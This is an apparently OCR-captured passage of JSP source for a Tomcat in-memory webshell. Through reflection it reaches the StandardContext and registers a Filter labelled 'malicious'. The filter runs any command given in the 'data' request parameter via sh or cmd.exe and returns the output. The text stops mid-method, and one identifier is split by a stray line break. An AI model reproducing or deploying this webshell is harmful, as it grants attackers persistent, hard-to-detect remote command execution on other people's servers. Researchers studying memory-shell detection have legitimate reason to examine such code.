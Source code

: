 #### JSP

```jsp
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.util.Map" %>
<%@ page import="java.io.IOException" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %>
<%@ page import="org.apache.catalina.Context" %>
<%@ page import="org.apache.catalina.core.ApplicationFilterConfig" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>

<%
    // Get standardContext through reflection
    ServletContext servletContext = request.getSession().getServletContext();
    Field context = servletContext.getClass().getDeclaredField("context");
    context.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) context.get(servletContext);
    Field context1 = applicationContext.getClass().getDeclaredField("context");
    context1.setAccessible(true);
    StandardContext standardContext = (StandardContext) context1.get(applicationContext);

    String filterName = "h3rmesk1t";
    Field filterConfigs = standardContext.getClass().getDeclaredField("filterConfigs");
    filterConfigs.setAccessible(true);
    Map filterConfigsMap = (Map) filterConfigs.get(standardContext);

    // Set malicious Filter
    if (filterConfigsMap.get(filterName) == null) {
        Filter filter = new Filter() {
            @Override
            public void init(FilterConfig config) {
            }

            @Override
            public void destroy() {
            }

            @Override
            public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws ServletException, IOException {
                HttpServletRequest httpServletRequest = (HttpServletRequest) request;
                HttpServletResponse httpServletResponse = (HttpServletResponse) response;

                if (h
ttpServletRequest.getParameter("data") != null) {
                    boolean isLinux = true;
                    String osType = System.getProperty("os.name");
                    if (osType != null && osType.toLowerCase().contains("win")) {
                        isLinux = false;
                    }

                    String[] command = isLinux ? new String[]{"sh", "-c", httpServletRequest.getParameter("data")} : new String[]{"cmd.exe", "/c", httpServletRequest.getParameter("data")};
                    InputStream inputStream = Runtime.getRuntime().exec(command).getInputStream();
                    Scanner scanner = new Scanner(inputStream).useDelimiter("h3rmesk1t");
                    String output = scanner.hasNext() ? scanner.next() : "";
                    httpServletResponse.getWriter().write(output);
                    httpServletResponse.getWriter().flush();
```